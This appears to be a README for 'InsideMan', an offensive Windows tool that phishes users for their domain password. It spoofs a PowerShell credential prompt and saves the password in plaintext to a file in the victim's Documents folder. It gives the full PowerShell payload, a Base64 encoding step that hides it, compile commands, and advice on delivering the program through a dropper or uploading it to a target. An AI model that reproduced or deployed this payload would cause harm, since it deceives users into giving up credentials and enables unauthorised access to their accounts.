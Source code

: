 Inspired by the "A Theif" method from the Sektor7 Windows Privilege Escallation Course, InsideMan is an internal Windows phishing executable that utilizes Powershell Get-Credential calls in an attempt to coerce the user into typing thier plaintext password into the prompt. The plaintext password is then written to a file named windows32.txt located in the user's Documents directory. 

This is not a sophisticated attack. Might set off an alarm or two with advanced EDR looking for abnormal powershell calls.

USAGE:

Use gcc to compile the cpp file. gcc.exe insideman.cpp -o insideman.exe

Attach to a dropper with iExpress or upload to target. 

Plaintext password is stored at C:\Users\$user\Documents\windows32.txt on the target machine.

ROLL YOUR OWN:

1). Open Powershell and copy the command below (Change text/output path as needed for specific pretexts):

$str= '$sessionCredential = $host.ui.PromptForCredential("Authentication Required", "Please Enter Your Domain Username and Password:", "$env:UserDomain\$env:USERNAME", ""); $mpass = [System.Net.NetworkCredential]::new("",$sessionCredential.password).Password; $user = $env:USERNAME; $mpass > C:\\Users\user\Documents\windows32.txt'

2.) Translate To Base64

'[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))'

3.) Paste Base64 Output to Base64 String In InsideMan.cpp

4.) Compile 

gcc.exe insideman.cpp -o insideman.exe
